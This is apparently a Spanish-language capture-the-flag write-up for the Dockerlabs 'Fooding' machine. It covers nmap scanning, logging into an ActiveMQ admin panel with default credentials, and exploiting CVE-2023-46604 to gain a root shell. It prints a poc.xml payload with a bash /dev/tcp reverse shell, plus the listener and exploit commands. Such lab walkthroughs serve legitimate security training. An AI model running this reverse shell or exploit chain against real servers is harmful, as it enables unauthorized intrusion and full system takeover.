 # Máquina Fooding


Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

-----------------
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT      STATE SERVICE     REASON
80/tcp    open  http        syn-ack
443/tcp   open  https       syn-ack
1883/tcp  open  mqtt        syn-ack
5672/tcp  open  amqp        syn-ack
8161/tcp  open  patrol-snmp syn-ack
41031/tcp open  unknown     syn-ack
61613/tcp open  unknown     syn-ack
61614/tcp open  unknown     syn-ack
61616/tcp open  unknown     syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información sobre los servicios.

```shell
nmap -sCV -p80,443,1883,5672,8161,41031,61613,61614,61616 172.17.0.2 -oN targeted
________________________________________________
PORT      STATE SERVICE    VERSION
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Apache2 Debian Default Page: It works
443/tcp   open  ssl/http   Apache httpd 2.4.59 ((Debian))
|_http-title: DockerLabs | Plantilla gratuita Bootstrap 4.3.x
|_http-server-header: Apache/2.4.59 (Debian)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/Consumer/Topic/#: 
|_    ActiveMQ/Advisory/MasterBroker: 
5672/tcp  open  amqp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
41031/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
61614/tcp open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
|_  Potentially risky methods: TRACE
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|_    5.15.15
```

Entramos a la web del puerto 80 y a la del puerto 443 a inspeccionarlas, no encontramos nada interesante. También hemos aplicado **Fuzzing** sobre ellas pero no he logrado encontrar nada interesante.

Le echamos un vistazo a la web que corre por el puerto **8161**

```
http://172.17.0.2:8161/index.html
```

Nos pide autenticación, probamos credenciales comunes como pueden ser:
- root:root
- guest:guest
- admin:admin

Logramos acceder con las credenciales **admin:admin**

En la web encontramos un directorio **/admin** en uno de los links. Observamos el panel de **ActiveMQ**, servicio el cual corre por el puerto **61616**, como podemos ver en el reporte de **nmap**.

![Pasted image 20240417135427](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/400ec442-9cd8-487c-b033-1b7b65c963df)

------------------
## Explotación

Tras buscar en internet, encontramos un exploit para la versión **5.15.15** -> [Exploit](https://github.com/NKeshawarz/CVE-2023-46604-RCE)
En el **exploit** tenemos que editar el archivo **poc.xml** para ejecutar el comando que queremos, en este caso la **reverse shell**.

```xml
<value>bash</value>
<value>-c</value>
<value>bash -i &gt;&amp; /dev/tcp/172.17.0.1/443 0&gt;&amp;1</value>
```

Este recurso lo compartiremos por el puerto **80** con **python**:

```shell
sudo python3 -m http.server 80
```

Abriremos el puerto **443** para recibir la **reverse shell**:

```shell
sudo nc -nlvp 443
```

Ejecutaremos el script, que tomará el **poc.xml** de nuestro servidor de python. Cabe recalcar que no indicamos el puerto ya que el script usa el puerto por defecto de **ActiveMQ** que es el **61616**. 

```shell
python3 CVE-2023-46604-RCE.py -i 172.17.0.2 -u http://172.17.0.1/poc.xml
```

Estamos dentro !

```shell
whoami
----------------
root
```

Y como el usuario que corre el servicio que hemos explotado es **root**, tenemos los privilegios máximos en el sistema.

------------
